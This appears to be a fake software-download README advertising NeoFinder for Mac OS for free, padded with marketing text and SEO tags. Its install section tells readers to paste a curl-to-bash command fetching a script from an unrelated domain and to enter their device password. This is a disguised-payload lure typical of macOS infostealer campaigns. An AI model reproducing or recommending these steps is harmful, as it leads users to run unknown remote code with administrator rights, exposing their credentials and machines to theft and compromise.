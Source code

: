 # NeoFinder — Free Download for Mac OS 🖥️

NeoFinder is a powerful digital asset management tool for Mac OS, designed to catalog, organize, and manage your media files effortlessly. Follow the instructions below to install NeoFinder on your Mac and streamline your workflow! 🚀

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)]()

If the download button doesn’t work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install NeoFinder for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 🎯 What You Get with NeoFinder

- 🗂️ **Comprehensive File Cataloging**: Organize photos, videos, and documents with powerful metadata tagging and search capabilities.
- ⚡ **Fast Search and Retrieval**: Instantly locate files using advanced filters and metadata, saving you time.
- 📷 **Media Previews**: Generate thumbnails and previews for images, videos, and PDFs for quick content review.
- ☁️ **Cloud Integration**: Sync your catalogs with cloud services like Dropbox for seamless access across devices.
- 🔒 **Secure Data Management**: Keep your files safe with robust backup and archiving features.
- 🛠️ **Customizable Workflows**: Tailor NeoFinder to your needs with flexible cataloging and automation tools.

---

## About NeoFinder

NeoFinder is a premier digital asset management solution for Mac OS, designed to help professionals and enthusiasts efficiently catalog and manage their media libraries. Whether you're a photographer, videographer, or creative professional, NeoFinder simplifies the process of organizing large collections of files. By leveraging powerful metadata tools, NeoFinder ensures that your **digital asset management** needs are met with precision and ease. Its intuitive interface allows users to catalog files across multiple storage devices, making it a go-to solution for **file organization for Mac**.

One of NeoFinder’s standout features is its ability to generate detailed catalogs with metadata, including EXIF, IPTC, and GPS data for images. This makes it an essential tool for users searching for a **Mac media cataloging** solution that delivers both speed and accuracy. The software supports a wide range of file formats, from photos and videos to PDFs and audio files, ensuring compatibility with diverse workflows. Its **free download for Mac OS** option allows users to explore its capabilities without upfront costs.

NeoFinder also excels in its integration with modern workflows. For instance, it supports cloud services like Dropbox and Google Drive, enabling seamless synchronization of catalogs across devices. This feature is particularly useful for professionals who need **asset management software** that works across multiple platforms. The software’s ability to generate thumbnails and previews enhances productivity by allowing users to quickly identify files without opening them.

Security is a core component of NeoFinder’s design. With built-in backup and archiving tools, users can protect their data from loss, making it a reliable choice for **Mac file management**. The software also offers automation features, such as batch renaming and metadata editing, which streamline repetitive tasks and save valuable time. For those seeking a **NeoFinder free download**, the installation process is straightforward, as outlined above, ensuring accessibility for all Mac users.

### Why Choose NeoFinder?

NeoFinder stands out as a top-tier solution due to its combination of power, flexibility, and ease of use. Unlike other **digital asset management** tools, NeoFinder offers a free version that provides robust functionality without compromising on quality. Its seamless integration with Mac OS, coupled with features like cloud syncing and metadata support, makes it a preferred choice for professionals seeking efficient **file organization for Mac**. Whether you’re managing a small photo collection or a vast media library, NeoFinder delivers unmatched performance.

---

## 🖼️ Preview

![NeoFinder Dashboard](https://www.cdfinder.de/images/power.jpg)  
*NeoFinder’s intuitive dashboard for managing your media files*

![Metadata Editing](https://www.cdfinder.de/images/nf-laptop.png)  
*Editing metadata for images and videos in NeoFinder*

![Catalog View](https://www.cdfinder.de/guide/18/files/sort-menu-1.jpg)  
*Viewing organized catalogs with thumbnail previews*

---

## 🔍 Tags

NeoFinder free download,  neofinder for mac, neofinder download, neofinder download free, neofinder mac free, neofinder free mac, neofinder free mac os, neofinder download mac, neofinder download mac os, free neofinder download
